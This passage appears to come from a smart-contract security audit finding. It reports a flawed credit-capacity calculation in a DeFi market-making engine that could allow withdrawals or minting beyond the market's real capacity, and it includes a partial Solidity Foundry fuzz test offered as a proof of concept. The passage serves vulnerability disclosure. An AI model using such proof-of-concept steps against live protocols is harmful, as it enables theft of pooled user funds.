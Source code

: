 As seen above, the credit capacity is calculated with Credit Capacity = Delegated Credit - Total Debt .

This vulnerability has a critical impact on the protocol's financial stability and security. Specifically:

Financial Losses:

The protocol may allow withdrawals or minting of USD tokens beyond the market's actual capacity, leading to undercollateralization and potential insolvency.

System Instability:

The incorrect credit capacity calculation could cause the system to operate in an unsafe state, where it cannot cover its liabilities.

Exploitation Risk:

Malicious actors could exploit this bug to drain funds from the protocol by artificially inflating the market's credit capacity.

## Proof Of Code (POC)

Running the following test will show the exploit:

```solidity
 function test_creditcapacitywrongcalculation( 
        uint256 marketId,
        uint256 amount,
        uint256 amounttodepositcredit,
        uint128 vaultId,
        uint64 anyamount
    )
        external
    {
         amounttodepositcredit = bound({ x: amount, min: 1, max: type(uint32).max });

        PerpMarketCreditConfig memory fuzzMarketConfig = getFuzzPerpMarketCreditConfig(marketId);
       vaultId = uint128(bound(vaultId, INITIAL_VAULT_ID, FINAL_VAULT_ID));
        VaultConfig memory fuzzVaultConfig = getFuzzVaultConfig(vaultId);

        vm.assume(fuzzVaultConfig.asset != address(usdc));

        deal({ token: address(fuzzVaultConfig.asset), to: address(fuzzMarketConfig.engine), give: amounttodepositcredit*10 });
        changePrank({ msgSender: address(fuzzMarketConfig.engine) });

        //c first user deposits credit into the market
        marketMakingEngine.depositCreditForMarket(fuzzMarketConfig.marketId, fuzzVaultConfig.asset, amounttodepositcredit);

        uint256 mmBalance = IERC20(fuzzVaultConfig.asset).balanceOf(address(marketMakingEngine));


        uint128 depositFee = uint128(vaultsConfig[fuzzVaultConfig.vaultId].depositFee);

        _setDepositFee(depositFee, fuzzVaultConfig.vaultId);

       //c all code below makes the deposit into the vault that checks realized debt
        address user = users.naruto.account;
        deal(fuzzVaultConfig.asset, user, 100e18);

        // perform the deposit
        vm.startPrank(user);
        marketMakingEngine.deposit(vaultId, 1e18, 0, "", false);
        vm.stopPrank();

```
